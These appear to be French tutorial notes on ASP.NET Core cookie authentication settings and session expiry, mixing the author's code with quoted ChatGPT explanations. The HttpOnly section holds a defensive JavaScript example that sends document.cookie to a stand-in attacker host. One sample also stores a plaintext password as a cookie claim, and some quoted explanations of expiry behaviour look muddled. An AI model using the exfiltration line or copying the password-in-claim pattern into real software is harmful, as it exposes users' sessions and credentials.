


# Les options de sécurité du `cookie`

```cs
builder.Services.AddAuthentication(CookieAuthenticationDefaults.AuthenticationScheme)
    .AddCookie(options =>
    {
        options.LoginPath = "/hukar-login";
        options.LogoutPath = "/hukar-logout";
        options.Cookie.HttpOnly = true;
        options.ExpireTimeSpan = TimeSpan.FromMinutes(30);
        options.SlidingExpiration = true;
        options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
        options.Cookie.SameSite = SameSiteMode.Strict;
        options.Cookie.Domain = "my-app.com";
    });
```

### `options.Cookie.HttpOnly`  : `bool`

`true` => Empêche l'accès au `cookie` via `Javascript`.

Lors d'une attaque `XSS` un script malveillant est injecté dans le site, celui-ci ne pourra alors pas lire le `cookie` authentification.

> ChatGpt
>
> ### ✅ ** `HttpOnly` protège contre le vol de cookies via JavaScript**
>
> Quand un cookie est marqué avec **`HttpOnly = true`**, il **ne peut pas être accédé via JavaScript** (`document.cookie`). Cela signifie que si un attaquant injecte du script malveillant sur ton site (**XSS**), il ne pourra pas récupérer directement le cookie d’authentification.
>
> #### 🔍 **Exemple d'attaque empêchée par `HttpOnly`** :
>
> ```js
> // Si HttpOnly est activé, cela échoue :
> console.log(document.cookie); // Impossible d'accéder au cookie
> ```
>
> Sans `HttpOnly`, un attaquant pourrait récupérer le cookie et l'envoyer à son serveur :
>
> ```js
> fetch("https://malicious-site.com/steal-cookie?data=" + document.cookie);
> ```


### `options.ExpireTimeSpan` : `TimeSpan`

`TimeSpan.FromMinutes(30)` => Expiration du `cookie` après `30` minutes.


### `options.SlidingExpiration` : `bool`

`true` => Renouvelle l'expiration à chaque requête.


### `options.Cookie.SecurePolicy`

Cette option contrôle si le `cookie` doit être transmis uniquement en `HTTPS`.

> Désactivée en mode développement par `asp.net`.
>
> Les navigateurs traitent `localhost` comme sécurisé même en `HTTP`.

| Valeur          | Description                                                  |
| --------------- | ------------------------------------------------------------ |
| `None`          | Le cookie est envoyé en HTTP et HTTPS (⚠️ Non recommandé, sauf en développement). |
| `Always`        | Le cookie est envoyé **uniquement en HTTPS** (✅ Recommandé en production). |
| `SameAsRequest` | Le cookie suit le protocole de la requête (si la requête est en HTTP, le cookie est envoyé en HTTP, sinon en HTTPS). |

👉 **Recommandation :** Toujours utiliser `CookieSecurePolicy.Always` en production pour éviter que le cookie ne soit intercepté en clair sur HTTP.


### `options.Cookie.SameSite`

La valeur par défaut est `Lax`. 

Cette option contrôle si le `cookie` est envoyé avec des requêtes provenant d'autres  sites (protection contre les attaques `CSRF`).

| Valeur   | Sécurité               | Explication                                                  |
| -------- | ---------------------- | ------------------------------------------------------------ |
| `Strict` | 🔒 Très haute           | Le cookie **n'est jamais envoyé** aux requêtes cross-site. Il n'est transmis que pour les requêtes initiées directement par le même site (ex: navigation manuelle, clic sur un lien interne). |
| `Lax`    | 🟠 Moyenne              | Le cookie **est envoyé** pour les requêtes de navigation (GET via un lien), mais pas pour les requêtes **automatiques** (POST, AJAX, iframes, etc.). |
| `None`   | ❌ Risqué (sans Secure) | Le cookie est **toujours envoyé**, même dans un contexte cross-site. Doit être combiné avec `SecurePolicy=Always` pour être sécurisé. |

👉 **Recommandation :**

- Utiliser **`Strict`** si ton application n’a pas besoin d’envoyer des cookies à des requêtes externes.
- Si ton application a besoin de supporter **OAuth** ou des requêtes multi-sites, utilise `Lax` (c'est le comportement par défaut).
- **Ne jamais utiliser `None` sans HTTPS**, sinon ton cookie sera exposé.


### `options.Cookie.Domain`

Par défaut le `Domain` n'est pas spécifié, le `cookie` est donc attaché au `domaine` qui l'a défini. Avec `Cookie.Domain` on peut rendre le `cookie` valide pour un `domaine` et ses `sous-domaines`.

> (ChatGPT résumé)
>
> ### ✨ Exemples :
>
> - **Sans `Cookie.Domain`** :
>
>   - Un cookie défini sur `auth.example.com` ne sera **pas accessible sur `www.example.com`**.
>
> - **Avec `Cookie.Domain = "example.com"`** :
>
>   - Le cookie sera **accessible** pour `auth.example.com`, `www.example.com`, `app.example.com` et toute autre sous-domaine de `example.com`.
>
>   
>
> ### **🔹 Conclusion**
>
>   - **Si ton application est monodomaine** → **Ne configure pas `Cookie.Domain`**, la valeur par défaut suffit.


## Information du `navigateur`

La pluspart de ces informations sont disponibles dans le `navigateur` :




## Durée de la session d'authentification

```cs
var claimOne = new Claim("name", "hukar");
var claimTwo = new Claim("password", "1234");
var identity = new ClaimsIdentity([ claimOne, claimTwo ], CookieAuthenticationDefaults.AuthenticationScheme);

var user = new ClaimsPrincipal(identity);

var authProperties = new AuthenticationProperties
{
    ExpiresUtc = DateTimeOffset.UtcNow.AddMinutes(20)
};

await ctx.SignInAsync(user, authProperties);
```

> (ChatGPT)
>
> ## 📌 **1. Différence entre `options.ExpireTimeSpan` et `AuthenticationProperties.ExpiresUtc`**
>
> | Option                                                       | Impact sur le cookie                                        | Impact sur l’authentification                        |
> | ------------------------------------------------------------ | ----------------------------------------------------------- | ---------------------------------------------------- |
> | **`options.ExpireTimeSpan`** (durée globale)                 | Définit la durée du **ticket d’authentification**           | Utilisé lors de **l’émission initiale du cookie**    |
> | **`AuthenticationProperties.ExpiresUtc`** (durée spécifique) | Surcharge `ExpireTimeSpan` pour une authentification donnée | Permet d’avoir une durée **par utilisateur/session** |
>
> ------
>
> ## 🕵️ **2. Pourquoi `Expires = Session` dans le navigateur ?**
>
> Si tu vois **"Session"** dans les DevTools du navigateur sous `Expires`, cela signifie que ton cookie **est un cookie de session**, donc **il sera supprimé dès que l'utilisateur ferme le navigateur**.
>
> **👉 Pourquoi cela arrive ?**
>  Par défaut, le cookie **n’a pas de date d’expiration explicite**, car .NET ne met pas de `Expires` dans le cookie **si `IsPersistent = false`**.
>
> ### 🚀 **Comment rendre le cookie persistant ?**
>
> Ajoute `IsPersistent = true` dans les `AuthenticationProperties` :
>
> ```csharp
> var authProperties = new AuthenticationProperties
> {
>     IsPersistent = true, // Rend le cookie persistant (pas supprimé à la fermeture du navigateur)
>     ExpiresUtc = DateTimeOffset.UtcNow.AddMinutes(20) // Expiration après 20 minutes
> };
> ```
>
> Maintenant, ton cookie aura bien une date d’expiration visible dans le navigateur ! 🎯
>
> ------
>
> ## 🛠 **3. Exemple complet de configuration**
>
> ```csharp
> builder.Services.ConfigureApplicationCookie(options =>
> {
>     options.ExpireTimeSpan = TimeSpan.FromMinutes(60); // Durée par défaut : 60 minutes
>     options.SlidingExpiration = true; // Renouvelle la session si l'utilisateur est actif
>     options.Cookie.HttpOnly = true;
>     options.Cookie.SecurePolicy = CookieSecurePolicy.Always;
> });
> 
> public async Task<IActionResult> Login()
> {
>     var claims = new List<Claim>
>     {
>         new Claim(ClaimTypes.Name, "John Doe")
>     };
> 
>     var claimsIdentity = new ClaimsIdentity(claims, CookieAuthenticationDefaults.AuthenticationScheme);
>     var authProperties = new AuthenticationProperties
>     {
>         IsPersistent = true, // Le cookie reste après fermeture du navigateur
>         ExpiresUtc = DateTimeOffset.UtcNow.AddMinutes(20) // Expiration après 20 min
>     };
> 
>     await HttpContext.SignInAsync(
>         CookieAuthenticationDefaults.AuthenticationScheme,
>         new ClaimsPrincipal(claimsIdentity),
>         authProperties
>     );
> 
>     return RedirectToAction("Index");
> }
> ```
>
> ------
>
> ## 🧐 **4. Que se passe-t-il si `options.ExpireTimeSpan` et `ExpiresUtc` sont différents ?**
>
> 👉 **Cas 1 : `ExpireTimeSpan = 60 min` et `ExpiresUtc = 20 min`**
>  📌 Le **cookie** sera valide pendant **60 minutes**, mais l'authentification expirera après **20 minutes**.
>
> 👉 **Cas 2 : `ExpireTimeSpan = 20 min`, pas de `ExpiresUtc`**
>  📌 Le **cookie** expirera après **20 minutes** (valeur globale).
>
> 👉 **Cas 3 : Pas de `ExpireTimeSpan`, mais `ExpiresUtc = 30 min`**
>  📌 La **durée de session** est limitée à **30 minutes**, mais le cookie peut rester plus longtemps (jusqu'à la fermeture du navigateur si `IsPersistent = false`).


### `IsPeristent = true`

```cs
var authProperties = new AuthenticationProperties
{
    IsPersistent = true,
    ExpiresUtc = DateTimeOffset.UtcNow.AddMinutes(20)
};

await ctx.SignInAsync(user, authProperties);
```

Dans mon navigateur `Expires` n'est plus égal à `Session`  :



> Un **cookie de session ne disparaît pas quand on ferme un onglet**, mais uniquement **quand on ferme entièrement le navigateur**.
>
> Pour garder un cookie après la fermeture du navigateur, il faut **définir une date d’expiration (`ExpiresUtc`) et activer `IsPersistent = true`**.
